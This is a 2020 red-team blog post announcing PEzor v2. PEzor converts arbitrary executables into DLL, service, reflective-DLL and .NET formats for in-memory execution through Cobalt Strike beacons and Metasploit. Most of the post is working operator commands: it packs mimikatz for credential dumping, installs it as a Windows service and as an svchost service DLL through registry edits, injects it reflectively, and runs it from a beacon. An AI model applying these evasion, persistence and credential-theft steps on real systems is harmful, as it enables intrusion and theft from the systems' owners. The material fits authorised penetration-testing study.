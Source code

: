 ```yaml
---
layout: default
---
```


_**Oct 26, 2020**_

# PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it deeply influenced the recent offensive developments by pushing the community to move towards .NET. But wouldn't be nice if we could [execute arbitrary executables in-memory](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

## Current State

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and create a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I thought I could improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following new output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process (ref: [Running a Service DLL](https://blog.didierstevens.com/2019/10/29/quickpost-running-a-service-dll/))
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**

```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**

```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**

```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**

```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SYSTEM\CurrentControlSet\services\SvcHostDemo\Parameters /v ServiceDll /t REG_EXPAND_SZ /d ^%SystemRoot^%\System32\SvcHostDemo.dll /f
The operation completed successfully.

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**

```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

![PEzor with Metasploit](../assets/images/pezor-metasploit.jpg "PEzor with Metasploit")

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll or dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike2.jpg "PEzor with Cobalt Strike")

[back](../)
